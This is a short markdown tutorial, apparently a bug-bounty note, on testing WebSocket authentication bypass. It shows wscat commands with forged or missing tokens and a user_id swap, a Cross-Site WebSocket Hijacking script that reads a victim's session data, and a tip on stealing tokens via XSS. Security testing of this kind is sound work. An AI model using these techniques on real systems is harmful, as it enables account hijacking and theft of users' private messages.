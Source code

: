 
 [[WebSocket]] (wss:// or ws://) is a communication protocol used for real-time features To connect to a WebSocket server, the client usually sends a URL like:

```
wss://example.com/ws?token=eyJhbGciOiJIUzI1...
```

The token is supposed to verify the user's identity.

### How to Find WebSocket Auth Bypass

#### Identify WebSocket Usage

In browser DevTools → Network tab → filter by "WS"

Look for URLs like:

```
wss://api.target.com/ws?token=...
OR
wss://chat.example.com/socket
```
 Check if they contain 
- token=
- auth=
- session ID
- org ID
- email/username

#### Analyze the Initial Handshake
Use tools like:

```
# Using wscat (Node.js)
wscat -c "wss://target.com/ws?token=xyz123"


# Or using curl-like syntax with websocat
websocat "wss://target.com/ws"
```

Watch what happens:

- Do you get a response?
- Can you send/receive messages?
- Try removing the token or sending a forged one.

#### Test These Exploit Techniques

1. Use Invalid Token
Try replacing the token with garbage:

```
wscat -c "wss://target.com/ws?token=FAKE123"
```

If you're still connected and can receive messages — auth is broken.

2. No Token at All
```
wscat -c "wss://target.com/ws"
```

If it works, there's no auth at all.

3. Reuse Victim's Token from LocalStorage or URL
If token is in JavaScript or exposed in source:

```
const socket = new WebSocket("wss://target.com/ws?token=" + localStorage.token);
```

You can steal it via XSS, or even Wayback Machine.

4. Session Cookies Automatically Sent?
If backend only checks for cookies and not WebSocket origin, try CSWSH (Cross-Site WebSocket Hijacking):

- Host malicious HTML page
- Auto-connect WebSocket from victim's browser
- Cookies will be sent!

```js
<script>
  const ws = new WebSocket("wss://target.com/ws");
  ws.onmessage = e => console.log(e.data);
</script>
```

Victim's browser sends session cookie → you get their real-time data.

#### Example PoC (Full Flow)
Let's say a chat app uses:

```
wss://chat.vulnerablesite.com/socket?user_id=123&token=abc
```

You try:
```
wscat -c "wss://chat.vulnerablesite.com/socket?user_id=456&token=123456"
```

You send this message:
```
{"action": "read_messages", "room_id": "admin"}
```

If server replies with actual data, you've bypassed auth.

Tools and their purpose: 
wscat → Interact manually
websocat → Script automation
Burp Suite → Intercept WebSocket handshake 

#### Recon tips 
Use gau, waybackurls, or github-dorks to find JS files:
```
cat urls.txt | grep ".js" | while read url; do curl -s $url | grep -i websocket; done
```

Search for code like:
```
new WebSocket("wss://")
```

### Reference 
https://freedium.cfd/https://infosecwriteups.com/exploiting-websocket-authentication-bypass-3d2c998fc062